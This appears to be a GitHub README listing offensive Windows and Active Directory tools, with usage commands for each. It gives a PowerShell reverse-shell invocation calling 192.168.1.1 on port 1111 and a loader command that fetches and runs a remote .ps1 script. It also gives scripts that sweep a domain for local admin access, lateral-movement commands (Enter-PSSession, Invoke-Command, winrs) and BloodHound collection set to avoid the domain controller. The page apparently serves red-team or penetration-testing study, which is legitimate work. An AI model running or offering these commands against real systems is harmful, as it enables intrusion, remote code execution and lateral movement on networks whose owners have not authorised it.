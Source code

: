 ## Interesting Tools

### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---

```powershell
C:> Loader.exe -path http:<ip>/<file>.ps1
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
